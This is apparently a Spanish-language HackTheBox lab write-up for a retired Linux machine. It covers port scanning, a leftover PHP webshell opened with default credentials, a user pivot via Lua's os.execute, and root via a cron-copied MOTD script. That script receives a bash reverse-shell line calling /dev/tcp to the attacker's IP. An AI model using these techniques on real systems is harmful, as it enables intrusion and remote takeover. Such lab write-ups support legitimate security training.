# Descripción 
- **Nivel:** Fácil. 
- **Temas a tratar:** Enumeración, OSINT, Cron Jobs, SSH.
- **OS:** Linux. 
- **Plataforma:** [HackTheBox](https://app.hackthebox.com/machines/233)
- **Fecha de retiro:** 15/08/2020
- **IP victima:** 10.10.10.181
- **IP atacante:** 10.10.14.3 o 10.10.14.10

---

## Enumeración
Empezamos enumerando todos los puertos bajo protocolo TCP de la máquina.
``` bash
sudo nmap -p- 10.10.10.181 -sS -T5 --min-rate 5000 -Pn -n
Not shown: 56683 closed tcp ports (reset), 8850 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
En primera instancia encontramos 2 puertos `22 y 80`.
``` bash
nmap -p22,80 -sVC -oN scan 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.089s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Puerto 80
Existe un sitio web, con un texto algo peculiar.

La traducción directa seria "Este sitio a sido comprometido. E dejado un backdoor para toda la internet" 
Analizando su código fuente nos topamos con lo siguiente:

El texto `<!--Some of the best web shells that you might need ;)-->` no me suena, así que procedamos a buscarlo en Google para ver qué encontramos.

En este repositorio podemos encontrar una lista de webshells para PHP, ASP y JSP, viendo el sitio con Wappalyzer nos encontramos que el sitio corre bajo php.

Así que procedemos a utilizar los nombres de las web-shells de PHP para ver si alguno funciona.
Podríamos utilizar una herramienta de enumeración como FFuF, GoBuster o Feroxbuster, que es lo recomendado, pero al ser muy pocos nombres en la lista, mejor probemos de uno en uno.
Shell aceptada `smevk.php`

## Reverse Shell
Con las credenciales por defecto `admin:admin` tenemos acceso.

Desde aquí podemos tenemos 2 diferentes opciones para obtener una shell: por medio de un comando o por medio de un archivo (en mi caso opte por el archivo el famoso monkeypentester; aunque seria mejor ejecutar el comando desde esta interfaz).
## Pivoting de Usuarios Webadmin a Sysadmin
Buscando la "user flag" encontramos que esta no existe en el directorio "Home" del usuario Webadmin, lo que significa que existe otro usuario.

En el directorio */home/webadmin* encontramos un archivo llamado "note.txt":
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
Una herramienta para practicar **lua**, así que toca buscarla. 

:::tip
Como esto es una escalada de privilegios realizamos una búsqueda pensando en esto para poder encontrar la herramienta que nos menciona el usuario sysadmin.
:::
Podemos ejecutar una herramienta llamada luvit como el usuario "sysadmin" (justo lo que buscamos).
:::important
La herramienta luvit CLI puede ser utilizada como una plataforma de scripting al igual que node. Se puede utilizar para ejecutar scripts lua como servidores independientes, clientes u otras herramientas.
:::
Como podemos ver, es una herramienta que puede ser utilizada para ejecutar scripts. Al igual que Node.js, debemos poder invocar una shell interactiva desde lua.
```lua
os.execute('/bin/bash')
```

:::note
También podemos ejecutar el comando desde un archivo .lua
:::
## Escalada de privilegios
La escalada de privilegios en sistemas GNU/Linux consiste en enumerar y buscar algún archivo que podamos editar y ejecutar por un permiso mal administrado. En este caso, no encontramos nada interesante al principio, así que optamos por buscar alguna tarea que se esté ejecutando cada cierto tiempo. Para esto, podemos emplear un script en bash o, en este caso, PsPy.

:::note
Enviar archivos es un arte. Existen múltiples maneras para realizar esto. En este caso, optamos por la más común, que es por medio de un servidor http.
:::
### Descubrimiento del proceso

En este caso, podemos ver que hay un proceso que se ejecuta cada cierto tiempo, que copia los archivos de la carpeta /var/backups/.update-motd.d hacia la carpeta /etc/update-motd.d.
:::important
Cuando nos enfrentamos a maquinas así, hay que saber para que sirve cada carpeta, en este caso no me suena la carpeta así que optamos por investigar cual es su función y encontrar si existe una manera documentada para escalar privilegios.
:::
Investigando sobre estas carpetas me encuentro lo siguiente en este sitio [Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/):
```
/etc/update-motd.d/ is used to generate the dynamic message of the day (MOTD) that is displayed to users when they log in to the system. If we can modify files listed in the directory, we can inject malicious script to escalate privileges.
```
Dentro del mismo sitio nos indica la forma para escalar privilegios, otorgándonos un comando. Algo que remarca esta máquina es que tenemos que logearnos por medio de SSH para que se ejecute el comando. Pienso que cuando ocurre un login por SSH, el archivo 00-header se ejecuta como el usuario root.
Antes que nada, verificamos si este medio es el correcto visualizando si tenemos permisos de edición hacia estos archivos:

### Acceso vía SSH
Para realizar esto, tenemos que tener nuestro archivo `id_rsa.pub` de nuestra maquina atacante y copiarlo dentro de la maquina victima en el archivo`~/.ssh/autorized_keys` lo que nos otorga el acceso por via ssh sin necesidad de conocer la contraseña del usuario.
:::important
En el caso de no tener un id_rsa generado, podemos crear uno nuevo con el comando `ssh-keygen -t rsa`. Este archivo se encuentra dentro de nuestra maquina atacante en `~/.ssh/id_rsa.pub`
:::

Login por medio de SSH por medio del comando `ssh -i id_rsa <Usuario Maquina Victima>@<IP Maquina Victima>`

### Root vía Login SSH
Ya que podemos realizar login por SSH, toca modificar el archivo `00-header` para que se ejecute un script en bash para asi obtener la reverse shell al momento de logearnos por SSH.
```bash
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'" >> 00-header
```

:::note
Este proceso tal vez tengamos que repetirlo varias veces ya que la "cron job" se ejecuta cada 30 segundos aproximadamente asi que nos puede borrar lo que escribimos dentro del archivo.
:::
Colocándonos en escucha por el puerto 445, y conectándonos por SSH, la maquina nos regresa una reverse shell:

:::important
Esta no es la unica manera para obtener root de la maquina, tambien podemos darnos permisos `suid` al usuario sysadmin, copiar la id_rsa dentro del archivo `/root/.ssh/authorized_keys`, entre otros métodos. Este es solo uno de ellos
:::

---
### Happy Hacking!!
